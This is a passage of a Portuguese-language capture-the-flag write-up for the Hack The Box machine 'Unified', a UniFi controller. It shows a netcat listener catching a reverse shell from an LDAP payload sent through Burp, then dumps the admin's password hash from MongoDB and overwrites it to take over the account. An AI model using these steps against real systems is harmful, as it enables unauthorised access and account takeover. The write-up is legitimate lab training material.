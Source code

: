 Listar o net cat na port escolhida

`nc -lvnp 4443`

Voltando ao burp adicione o payload do nosso LDAP Server

![Alt text](/assets/img/unifi5.png)

Clicar send e receber a reverse shell

### Primeira Flag

cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127


## **Escalando Privilégio**

Obtendo credencias

O Unifi usa mongodb e seu database padrão e ace.

### Obtendo Credenciais

```shell
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	"time_created" : NumberLong(1640900495),
	"last_site_name" : "default",
	"ui_settings" : {
```
{: .nolineno }

### Editando a senha
	
Em vez de tentar quebrar a hash vamos trocar a senha gerando uma nova hash.
	
```shell
mkpasswd -m sha-512 senha
$6$WkdCd5z2bOB9vE9i$5EDeAqsTQHVNNoIWFrpvjPB5mUDm8GX.81gMLvzq/g/IXanc2jiMTmWZSmH4081uxiv5PU8UFMNT/Uee2mwev.

db.admin.update({ name: "administrator" }, { $set: { "x_shadow": "$6$WkdCd5z2bOB9vE9i$5EDeAqsTQHVNNoIWFrpvjPB5mUDm8GX.81gMLvzq/g/IXanc2jiMTmWZSmH4081uxiv5PU8UFMNT/Uee2mwev." } });

```
{: .nolineno }
Senha alterada podemos logar na aplicação via web
### Senha ssh  root
Unifi permiti acessos ssh, para verificar, acessar menu site.
